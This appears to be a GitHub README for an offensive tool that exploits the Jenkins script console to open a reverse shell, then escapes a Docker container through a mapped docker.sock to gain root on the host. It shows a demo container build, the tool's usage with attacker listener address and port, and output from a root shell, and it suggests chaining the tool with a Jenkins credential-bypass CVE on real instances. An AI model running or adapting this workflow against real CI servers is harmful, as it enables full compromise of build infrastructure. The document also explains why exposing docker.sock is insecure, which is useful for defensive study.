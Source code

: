 # Jenkins

This exploit gives a remote shell on a Jenkins server that is running in a docker container
then it privilege escsalate to root and escape the docker container to provide full root access on the pipeline server.

The inspiration for this code come from the geek lunch session where the PE team migrate to Jenkins and also run docker within docker
in the presentation that makes docker escape and privilege escalation trivial.

## Description

This works because Jenkins script console allow execution of groovy code, so this is not a vuln but a feature that can be exploitet.
Escape docker and get root works because docker.sock is mapped into the container and access to docker.sock is equalent to root access
this is also not a vuln just common sence you not do this from security perspective if you are concern about docker escape and privilege escalation to root.


## Usage

First startup the docker Jenkins container by execute the run.sh script it will run a Jenkins instance where we can demo the exploitation.

```ssh
docker  ./run.sh
Sending build context to Docker daemon   5.12kB
Step 1/10 : FROM jenkins:1.596
 ---> 484633fa05c1
Step 2/10 : USER root
 ---> Using cache
 ---> 718a42ff0ebd
Step 3/10 : RUN apt-get update       && apt-get install -y sudo       && rm -rf /var/lib/apt/lists/*
 ---> Using cache
 ---> 0ecf3d8f2e8e
Step 4/10 : RUN echo "jenkins ALL=NOPASSWD: ALL" >> /etc/sudoers
 ---> Using cache
 ---> 4ba00f02b3a9
Step 5/10 : RUN groupadd docker
 ---> Using cache
 ---> 3323041f311b
Step 6/10 : RUN gpasswd -a jenkins docker
 ---> Using cache
 ---> b9c2516d96a1
Step 7/10 : ADD givemeroot.sh /
 ---> ec1fcf18e958
Step 8/10 : USER jenkins
 ---> Running in 6ac13b7148e3
Removing intermediate container 6ac13b7148e3
 ---> 1c0dc288c304
Step 9/10 : COPY plugins.txt /usr/share/jenkins/plugins.txt
 ---> 4c9420482d9c
Step 10/10 : RUN /usr/local/bin/plugins.sh /usr/share/jenkins/plugins.txt
 ---> Running in 86aba74268d3
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   248  100   248    0     0    369      0 --:--:-- --:--:-- --:--:--   370
100   255  100   255    0     0    232      0  0:00:01  0:00:01 --:--:--   847
100  210k  100  210k    0     0   115k      0  0:00:01  0:00:01 --:--:-- 57.3M
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   254  100   254    0     0    566      0 --:--:-- --:--:-- --:--:--   566
100   261  100   261    0     0    345      0 --:--:-- --:--:-- --:--:--   345
100 2537k  100 2537k    0     0   571k      0  0:00:04  0:00:04 --:--:--  727k
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   240  100   240    0     0    545      0 --:--:-- --:--:-- --:--:--   545
100   247  100   247    0     0    300      0 --:--:-- --:--:-- --:--:--   942
100 1985k  100 1985k    0     0   334k      0  0:00:05  0:00:05 --:--:--  418k
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   254  100   254    0     0    579      0 --:--:-- --:--:-- --:--:--   579
100   260  100   260    0     0    347      0 --:--:-- --:--:-- --:--:--  2500
100  108k  100  108k    0     0  90333      0  0:00:01  0:00:01 --:--:-- 90333
Removing intermediate container 86aba74268d3
 ---> 9524555a4829
Successfully built 9524555a4829
Successfully tagged jenkins:latest
57aeb64742b86d986c59135f61bf6582683ee378605160d0c3e72f07474c3866
```

Once the Jenkins container is running we can run the exploitation, here is the usage menu.

```ssh
./jenkins_sconsole_rce.py

 ▐▄▄▄▄▄▄ . ▐ ▄ ▄ •▄ ▪   ▐ ▄ .▄▄ ·  ▄▄·        ▐ ▄ .▄▄ ·       ▄▄▌  ▄▄▄ .▄▄▄   ▄▄· ▄▄▄ .
  ·██▀▄.▀·•█▌▐██▌▄▌▪██ •█▌▐█▐█ ▀. ▐█ ▌▪▪     •█▌▐█▐█ ▀. ▪     ██•  ▀▄.▀·▀▄ █·▐█ ▌▪▀▄.▀·
▪▄ ██▐▀▀▪▄▐█▐▐▌▐▀▀▄·▐█·▐█▐▐▌▄▀▀▀█▄██ ▄▄ ▄█▀▄ ▐█▐▐▌▄▀▀▀█▄ ▄█▀▄ ██▪  ▐▀▀▪▄▐▀▀▄ ██ ▄▄▐▀▀▪▄
▐▌▐█▌▐█▄▄▌██▐█▌▐█.█▌▐█▌██▐█▌▐█▄▪▐█▐███▌▐█▌.▐▌██▐█▌▐█▄▪▐█▐█▌.▐▌▐█▌▐▌▐█▄▄▌▐█•█▌▐███▌▐█▄▄▌
 ▀▀▀• ▀▀▀ ▀▀ █▪·▀  ▀▀▀▀▀▀ █▪ ▀▀▀▀ ·▀▀▀  ▀█▄▀▪▀▀ █▪ ▀▀▀▀  ▀█▄▀▪.▀▀▀  ▀▀▀ .▀  ▀·▀▀▀  ▀▀▀
[mikael.kall@kindredgroup.com]

Usage: ./jenkins_sconsole_rce.py <URL> <LHOST> <LPORT> <USERNAME> <PASSWORD>

EXAMPLE: ./jenkins_sconsole_rce.py 'http://127.0.0.1:8080' 10.100.12.xx 1337 <USERNAME> <PASSWORD>

```

Exploit do a reverse_tcp connection so you need to specify your ip and port to your computer for exploit to connect back to
your listener.

```ssh
jenkins  ./jenkins_sconsole_rce.py 'http://127.0.0.1:8080' 10.100.12.41 1337 admin admin
[+] LHOST = 10.100.12.41
[+] LPORT = 1337
[+] Shell listen
[+] HTTP Listen = 8000
172.17.0.2 - - [15/Jun/2018 09:37:21] "GET /5 HTTP/1.1" 200 -
sh-4.4# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4,6,10,11(ftp),20,26(proc),27
```

You now have remote shell on the Jenkins instance and escaped the docker container and got root access on the target machine.

Note that username and password is not required on this demo password authentication is disabled on the container but if you run
on another instance then it may be required or need to be chained with the credentials bypass CVE in Jenkins that you can find upstream.